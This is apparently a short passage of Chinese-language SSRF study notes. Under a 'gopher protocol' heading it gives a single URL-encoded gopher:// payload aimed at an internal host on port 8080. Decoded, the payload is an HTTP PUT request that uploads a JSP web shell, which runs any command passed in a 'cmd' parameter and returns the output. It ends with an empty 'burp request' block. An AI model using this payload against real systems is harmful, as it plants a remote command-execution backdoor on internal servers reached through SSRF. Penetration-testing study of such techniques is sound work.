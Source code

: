 #### gopher协议

##### 网站请求

```
gopher://172.72.23.26:8080/_%50%55%54%20%2f%78%78%78%2e%6a%73%70%2f%20%48%54%54%50%2f%31%2e%31%0d%0a%48%6f%73%74%3a%20%31%37%32%2e%37%32%2e%32%33%2e%32%36%3a%38%30%38%30%0d%0a%43%6f%6e%74%65%6e%74%2d%4c%65%6e%67%74%68%3a%20%34%36%30%0d%0a%0d%0a%3c%25%0d%0a%20%20%20%20%53%74%72%69%6e%67%20%63%6f%6d%6d%61%6e%64%20%3d%20%72%65%71%75%65%73%74%2e%67%65%74%50%61%72%61%6d%65%74%65%72%28%22%63%6d%64%22%29%3b%0d%0a%20%20%20%20%69%66%28%63%6f%6d%6d%61%6e%64%20%21%3d%20%6e%75%6c%6c%29%0d%0a%20%20%20%20%7b%0d%0a%20%20%20%20%20%20%20%20%6a%61%76%61%2e%69%6f%2e%49%6e%70%75%74%53%74%72%65%61%6d%20%69%6e%3d%52%75%6e%74%69%6d%65%2e%67%65%74%52%75%6e%74%69%6d%65%28%29%2e%65%78%65%63%28%63%6f%6d%6d%61%6e%64%29%2e%67%65%74%49%6e%70%75%74%53%74%72%65%61%6d%28%29%3b%0d%0a%20%20%20%20%20%20%20%20%69%6e%74%20%61%20%3d%20%2d%31%3b%0d%0a%20%20%20%20%20%20%20%20%62%79%74%65%5b%5d%20%62%20%3d%20%6e%65%77%20%62%79%74%65%5b%32%30%34%38%5d%3b%0d%0a%20%20%20%20%20%20%20%20%6f%75%74%2e%70%72%69%6e%74%28%22%3c%70%72%65%3e%22%29%3b%0d%0a%20%20%20%20%20%20%20%20%77%68%69%6c%65%28%28%61%3d%69%6e%2e%72%65%61%64%28%62%29%29%21%3d%2d%31%29%0d%0a%20%20%20%20%20%20%20%20%7b%0d%0a%20%20%20%20%20%20%20%20%20%20%20%20%6f%75%74%2e%70%72%69%6e%74%6c%6e%28%6e%65%77%20%53%74%72%69%6e%67%28%62%29%29%3b%0d%0a%20%20%20%20%20%20%20%20%7d%0d%0a%20%20%20%20%20%20%20%20%6f%75%74%2e%70%72%69%6e%74%28%22%3c%2f%70%72%65%3e%22%29%3b%0d%0a%20%20%20%20%7d%20%65%6c%73%65%20%7b%0d%0a%20%20%20%20%20%20%20%20%6f%75%74%2e%70%72%69%6e%74%28%22%66%6f%72%6d%61%74%3a%20%78%78%78%2e%6a%73%70%3f%63%6d%64%3d%43%6f%6d%6d%61%6e%64%22%29%3b%0d%0a%20%20%20%20%7d%0d%0a%25%3e
```

![image-20240905145229820](https://image.201068.xyz/assets/29.SSRF/image-20240905145229820.png)

##### burp请求

```
```